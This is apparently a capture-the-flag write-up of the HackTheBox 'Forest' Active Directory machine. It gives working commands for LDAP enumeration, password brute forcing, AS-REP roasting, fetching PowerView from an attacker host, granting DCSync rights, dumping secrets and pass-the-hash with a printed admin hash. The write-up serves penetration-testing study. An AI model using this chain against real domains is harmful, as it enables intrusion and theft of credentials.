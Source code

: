 # Forest

<details>
<details>
  <summary><strong>Summary</strong></summary>
Scan the machine's ports and find winrm and LDAP services running. Use LDAPsearch to find the password policy has no limits on login attempts and start trying to brute force using crackmapexec. While brute forcing is going, look at impacket examples for more options on what to do <code>/usr/share/doc/python3-impacket/examples</code>. Find the GetNPUsers tool and use it to harvest the non-preauth AS_REP responses for users. Crack the resulting hash using hashcat. Check for which shares the user has access to. Check for winrm ports and use the credentials and evil-winrm to login to the machine. 
Upload Sharphound to the machine and enumerate the AD setup. Move the sharphound file back to linux and view it using Bloodhound. Find a WriteDacl exploit that the base user can perform. Upload Powerview, then perform the WriteDacl exploit, creating a new user with DACL privileges. Use impacket-secretsdump to get secrets, keys, and credentials from all the users. An admin hash was provided, so use a pass-the-hash attack to get a root shell.

</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. Follow the instructions on the Bloodhound and use PowerView (Import-Module) when enumerating
2. use LDAPSearch to look for available information on the server (naming contexts, SAM account types, Object Categories, groups, etc)
3. When running Sharphound on the target always use `-c all` to get all data possible in the scrape
4. When you are not sure what to do with AD instance, go look up impacket examples in `/usr/share/doc/python3-impacket/examples`

</body>
</details>

#### Scan the machine for open ports

![alt text](images/image.png)

LDAP returns a server, so start using ldapsearch
![alt text](images/image-1.png)

Filter the users down from automatically created accounts - find 5 users and save them into users.ldap

```
ldapsearch -x -H 'ldap://10.129.194.239' -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.ldap
```

Ldapsearch for naming contexts

![alt text](images/image15.png)

Before brute forcing, check the policy for passwords on the AD instance using WinPEAS or crackmapexec

![alt text](images/image-2.png)
![alt text](images/image-3.png)

Brute force the password using crackmapexec  
`crackmapexec smb 10.129.52.209 -u users.out -p pwlist.txt`

Not sure what else to do, so look at impacket examples  
`/usr/share/doc/python3-impacket/examples`  
Find impacket GetNPUsers.py package  
`./GetNPUsers.py -dc-ip 10.129.52.209 -request 'htb.local/'`
Use it and get the service account information
![alt text](images/image-4.png)

Check the open ports for a port using winrm. Find one and try using evil-winrm to login.

![alt text](images/image-5.png)

Login using evil-winrm
![alt text](images/image-6.png)

Upload Sharphound to the target machine using iwr, then run sharphound

![alt text](images/image-7.png)

Look at the results using sharphound. Find an AS-REP Roastable account that is the one we already have access to.
![alt text](images/image-8.png)

Find a Kerberoastable account
![alt text](images/image-9.png)

The Exchange Windows Permissions Group has WriteDACL privileges on the domain, which means any member of the group can access the Discretionary Access Control List on the target domain and grant themselves any privileges on the object.  
Create a new user in the domain group and add it to the "Exchange Windows Permissions" Group

![alt text](images/image-12.png)
![alt text](images/image-14.png)

Now follow the commands from the WriteDACL line for windows exploitation in the bloodhound graph
First, import Powerview

```
iwr -uri 'http://10.10.14.202/PowerView.ps1' -O PowerView.ps1

Import-Module .\PowerView.ps1
```

Then follow the instructions from Bloodhound. Add the PrincipalIdentity flag and include the full length naming context for the TargetIdentity Add-DomainObjectsAcl command.

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB\bob', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bob -Rights DCSync
```

Then use Secretsdump to get the Password dump  
`impacket-secretsdump 'htb.local/bob:Password123!@10.129.36.42'`

![alt text](images/image-13.png)

Execute a pass the hash attack and get the root flag from the Admin Desktop

```
impacket-wmiexec -hashes :32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.129.36.42
```
